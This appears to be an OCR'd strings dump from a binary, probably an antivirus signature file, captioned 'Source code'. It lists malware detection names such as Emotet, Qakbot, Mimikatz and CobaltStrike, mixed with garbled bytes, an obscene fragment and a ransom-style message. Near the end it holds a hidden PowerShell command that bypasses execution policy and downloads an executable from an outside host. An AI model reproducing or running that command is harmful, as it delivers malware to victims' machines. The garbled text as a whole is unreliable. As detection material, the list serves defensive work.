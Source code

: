 



ClaySlide.­.ClaySlide.­.Mimikatz...MagicHound

Locky
Emotett
Trojan:AndroidOS/FakeBank.­!MuddyWater
Speadear.È!ThripKeyLogger
!Shootback.Ø!Credstealer
Faketask.A..!Faketask.B
!Mekotio.B!bit.§.Ronbakray.Backdoor:ASP/Webshell.....Þ¹..õ«.ô(...³u#!º(6©¢.ý=yÿ¯.uD.ÝTrojanDownloader:PowerShell/Pawasha.A
Merkodik.¬!Xmrine
Ammyrat
Emotet.AN
tmpdir.!Qakbot.
PWS:HTML/Aibankfraud.C.PWS:HTML/Payphish
Backdoor:AndroidOS/Luckycat.
Loyphish.C
Obfuscator.AAZ
Genasom.JZ
PWS:HTML/Nawsetphish.D.§.Ronbakray.A.§.Ronbakray.B.­aOxyApplet.A.Backdoor:PHP/Webshell.H.
Visaphish
C:\\WINDOWS\\system32\\CatRoot2
uRansom:Win32/Tobfy.K
Rainy Keylogger
you system infected by slash worm!
ransomware.wannacry.zip
Zbot.AHW.
Banload.ASE
Genasom.OQG
Zonsterarch
Ziconarch
Worm:VBS/Jenxcus
!Injector.gen!
SSHDoor.B
Sirefef.AK
/Proslikefan.gen
¡ROFTWARE
Win64/Expiro.gen
/CobaltStrike.



windows.hlp



fingeringmasturbatepuss...jp`g




cmd/cpowershell.exe-executionpolicybypass-noprofile-windowstylehidden(new-objectsystem.net.webclient).downloadfile('http://xiaoba666.f3322.net:8080/installer.exe..¯.WellMess.¬¡WellMess.¬!Bootcorrupt

